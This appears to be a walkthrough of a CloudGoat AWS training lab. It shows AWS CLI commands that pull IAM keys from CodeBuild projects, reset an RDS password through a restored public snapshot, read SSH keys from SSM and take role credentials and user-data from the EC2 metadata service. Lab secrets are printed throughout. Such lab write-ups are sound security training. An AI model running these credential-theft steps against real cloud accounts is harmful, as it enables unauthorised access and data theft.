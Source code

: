 # Code Build Secrets

Starting as the IAM user Solo, the attacker first enumerates and explores CodeBuild projects, finding unsecured IAM keys for the IAM user Calrissian therein. Then operating as Calrissian, the attacker discovers an RDS database. Unable to access the database's contents directly, the attacker can make clever use of the RDS snapshot functionality to acquire the scenario's goal: a pair of secret strings.

Alternatively, the attacker may explore SSM parameters and find SSH keys to an EC2 instance. Using the metadata service, the attacker can acquire the EC2 instance-profile's keys and push deeper into the target environment, eventually gaining access to the original database and the scenario goal inside (a pair of secret strings) by a more circuitous route.

GoalA pair of secret strings stored in a secure RDS database.


# Walkthrough

## Option 1: Snapshot 
### Login 
```
aws configure --profile solo
```

### List code build objects and rds instance
```
aws codebuild list-projects --profile solo
Found project name e.g. cg-codebuild-codebuild_secrets_cgid23aykmyrb8

aws codebuild batch-get-projects --names cg-codebuild-codebuild_secrets_cgid23aykmyrb8 --profile solo
Found calrissian-aws-access-key and calrissian-aws-secret-key
```

### Assume calrissian and list rds instances
```
aws configure --profile calrissian

aws rds describe-db-instances --profile calrissian
Found instance cg-rds-instance-codebuild-secrets-cgid23aykmyrb8 with username: cgadmin, dbname: securedb
```

### Create snapshot and change password
```
aws rds create-db-snapshot --profile calrissian --db-instance-identifier cg-rds-instance-codebuild-secrets-cgid23aykmyrb8 --db-snapshot-identifier securedb-snapshot

aws rds describe-db-subnet-groups --profile calrissian
Got: cloud-goat-rds-testing-subnet-group-codebuild_secrets_cgid23aykmyrb8. Needs to be in the public subnets
aws ec2 describe-security-groups --profile calrissian
Got sg-0d83ae58e60f3a655, includes your IP address and the private address ranges

aws rds restore-db-instance-from-db-snapshot --db-instance-identifier restored-secure-db --db-snapshot-identifier securedb-snapshot --db-subnet-group-name cloud-goat-rds-testing-subnet-group-codebuild_secrets_cgid23aykmyrb8 --publicly-accessible --vpc-security-group-ids sg-0d83ae58e60f3a655 --profile calrissian

!! Note that the AddTagsToResource is required for the above command to work!

aws rds modify-db-instance --db-instance-identifier restored-secure-db --master-user-password cloudgoat --profile calrissian
```

### Login to rds instance 

```
psql postgresql://cgadmin@restored-secure-db2.cgsyel6spw2r.us-east-1.rds.amazonaws.com:5432/postgres

List available databases
\l  

Change to database
\c securedb

List tables
\dt
SELECT * FROM sensitive_information;

 name |                   value                    
------+--------------------------------------------
 Key1 | V\!C70RY-PvyOSDptpOVNX2JDS9K9jVetC1xI4gMO4
 Key2 | V\!C70RY-JpZFReKtvUiWuhyPGF20m4SDYJtOTxws6
```

## Option 2: EC2 Metadata Service

### List SSM parameters
```
aws ssm describe-parameters --profile solo
Found two keys: cg-ec2-private-key-codebuild_secrets_cgid23aykmyrb8 and cg-ec2-public-key-codebuild_secrets_cgid23aykmyrb8. For both the data type is text, i.e. stored in plaintext.

Describe each parameter one by one:
aws ssm get-parameter --profile solo --name cg-ec2-private-key-codebuild_secrets_cgid23aykmyrb8
aws ssm get-parameter --profile solo --name cg-ec2-public-key-codebuild_secrets_cgid23aykmyrb8

Save the plaintext keys into private_key.pem and public_key.crt correspondingly
Change the private key to have permissions to use
chmod 400 private_key.pem
```

### Connect to EC2 instance
```
aws ec2 describe-instances --profile solo
Found instance i-076aeab2ec2a5ff06, with cg-ec2-key-pair-codebuild_secrets_cgid23aykmyrb8 and at 54.156.77.48

ssh -i private_key.pem ubuntu@54.156.77.48
```

### Retrieve instance metadata role
```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ec2-role-codebuild_secrets_cgid23aykmyrb8
```

### List lambda functions and its environmental variables
```
aws lambda list-functions --profile ec2 | grep build
Got function name cg-lambda-codebuild_secrets_cgid23aykmyrb8

aws lambda get-function --function-name cg-lambda-codebuild_secrets_cgid23aykmyrb8 --profile ec2
Got DB_USER, DB_NAME and DB_PASSWORD
wagrrrrwwgahhhhwwwrrggawwwwwwrr, cgadmin
```

### List RDS instances for endpoint
```
aws rds describe-db-instances --profile ec2
Got cg-rds-instance-codebuild-secrets-cgid23aykmyrb8.cgsyel6spw2r.us-east-1.rds.amazonaws.com
```

### Login to RDS instance via EC2 instance
```
psql postgresql://cgadmin@cg-rds-instance-codebuild-secrets-cgid23aykmyrb8.cgsyel6spw2r.us-east-1.rds.amazonaws.com:5432/postgres
Achieve same steps as option 1 for discovering sensitive information
```

## Option 2.b 
### Discover database credentials
```
In the ec2 instance query user-data
curl http://169.254.169.254/latest/user-data

Found password, endpoint and username
psql postgresql://cgadmin:wagrrrrwwgahhhhwwwrrggawwwwwwrr@cg-rds-instance-codebuild-secrets-cgid23aykmyrb8.cgsyel6spw2r.us-east-1.rds.amazonaws.com:5432/securedb
Login


```
# References